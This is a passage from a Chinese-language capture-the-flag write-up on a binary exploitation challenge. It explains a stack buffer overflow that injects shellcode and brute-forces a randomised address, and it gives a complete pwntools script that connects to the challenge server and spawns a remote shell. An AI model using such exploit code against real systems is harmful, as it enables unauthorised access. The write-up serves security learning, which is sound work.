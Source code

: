同样这个程序并没有包含 flag 的信息，那么我们还是希望攻入远程终端查看 flag 信息。

在这里我们希望通过栈溢出的方式来攻击这个程序，我们把 shellcode 的代码注入到输入的 map_addr 地址上，通过溢出 buffer 使其跳到 map_addr 上，即打开终端。因为地址是随机的，所以我们需要多尝试几次，直到输入的包正好打到 address 即可进入远程终端。

这里我们就需要看一下 buffer 的偏移量，用 IDA 打开 elf 文件，可以看到：

![image-20240707203608549](/Users/bruce/Library/Application Support/typora-user-images/image-20240707203608549.png)

那么编写 python 程序如下：

```python
from pwn import *
from wstube import websocket
import random

context.arch = 'amd64'

p = websocket("wss://ctf.zjusec.com/api/proxy/9ec6f4ef-477b-458b-a3e4-1ea5ca3b52be")

sc_asm = shellcraft.sh()
sc = asm(sc_asm)

payload = flat(
    b"A" * 0x48, # 要使得栈溢出得在原来的基础上加 8
    p64(0x20000 + (random.randint(0,7)) * 0x1000)
)

p.sendlineafter("what's your name: ", sc)
p.sendlineafter("try to overflow me~", payload)
p.interactive()
```

一发入魂！进入终端，拿到 flag：

![image-20240707203855146](/Users/bruce/Library/Application Support/typora-user-images/image-20240707203855146.png)